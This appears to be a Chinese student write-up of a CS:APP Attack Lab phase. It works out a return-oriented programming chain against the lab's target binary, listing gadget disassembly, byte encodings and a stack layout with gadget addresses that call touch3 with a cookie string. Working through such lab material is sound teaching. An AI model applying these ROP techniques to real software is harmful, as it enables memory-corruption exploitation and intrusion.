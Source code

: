 3）在上一次 gadget 调用之后，`%rsp` 的内容被弹出到 `%rax` 做为返回值。所以我们需要算出 `%rsp + offset` 正好是字符串的起始地址，这个 `offset` 要看后面有多少的语句，所以暂且留下，所以这个 `offset` 应该是前两个 gadgets 栈帧结束后填充的内容。

4）需要把 `offset` pop 到 `%rax` 中，`pop %rax` 上午机器码： `58`
```asm
00000000004019a7 <addval_219>:
  4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
  4019ad:	c3                   	retq  
```

5）计算偏移需要两个寄存器，已知 `rdi` 已经被钦定为比例变址寻址的基址寄存器，所以要找一个变址寄存器。考虑 `movq %rax, <某个寄存器>`，也就是以 `48 89 xx`，但是反汇编中只有 `48 89 c7 c7` 以及 `48 89 e0` 等，是不能作为 gadget 的。所以考虑 `movl`，但是注意 `movl` 会把目的寄存器（双字）的高 4字节设置为 0。需要一个 `movl %eax(保存的 offset), <某个寄存器>`。`89 cx`（c7 不行，因为目标 `%edi`），在这里钦定：
```
00000000004019db <getval_481>:
  4019db:	b8 5c 89 c2 90       	mov    $0x90c2895c,%eax
  4019e0:	c3                   	retq 
```
目标的寄存器是：`%edx`

6）需要找到 `lea` 计算偏移，找到了可用 `lea`（使用了寄存器，目标是 `%eax`，这样让 `%rdi` 指向它）
```asm
00000000004019d6 <add_xy>:
  4019d6:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
  4019da:	c3                   	retq 
```
所以在此之前，需要把 `edx` 的数据移到 `%esi`。按照之前的找法，`89 dx`，只有一个 那就是 `d1` 可以匹配，所以中转的是 `%ecx`。
```
0000000000401a33 <getval_159>:
  401a33:	b8 89 d1 38 c9       	mov    $0xc938d189,%eax
  401a38:	c3                   	retq  
```
由于 `38 c9` 是 `Encodings of 2-byte functional nop instructions`，所以可以不用管。
还有就是 `movl %ecx, %esi` 的机器码：`89 ce`：
```asm
0000000000401a11 <addval_436>:
  401a11:	8d 87 89 ce 90 90    	lea    -0x6f6f3177(%rdi),%eax
  401a17:	c3                   	retq   
```
`lea` 直接使用现成的。

7）`%rax` 指向 `touch3` 的第一个参数存放的寄存器 `%rdi`
```
movq %rax, %rdi：48 89 c7
00000000004019a0 <addval_273>:
  4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
  4019a6:	c3                   	retq  
```

8）接着存放 `touch3` 地址

9）存放 `cookie` 起始的 ASCII

10） 计算 `offset`：

综合 1~9 的结果：

**栈顶：**
栈|地址|意义或内容
-|-|-
0x28 字节的填充| `%rsp + 0x0` ~ `%rsp + 0x28`|填充
gadget1|0x401aab + 0x2 = 0x401aad`|movq %rsp, %rax
gadget2|0x4019a0 + 0x2 = 0x4019a2|movq %rax, %rdi
gadget3|0x4019a7 + 0x4 = 0x4019ab|popq %rax
offset|gadget3 上方|偏移，由于地址随机只能通过 `%rsp` + offset 计算 cookie 的起始位置
gadget4|0x4019db + 0x2 = 0x4019dd|movl %eax, %edx
gadget5|0x401a33 + 0x1 = 0x401a34|movl %edx, %ecx
gadget6|0x401a11 + 0x2 = 0x401a13|movl %ecx, %esi
gadget7|0x4019d6|lea (%rdi, %rsi, 1), %rax
gadget8|0x4019a0 + 0x2 = 0x4019a2|movq %rax, %rdi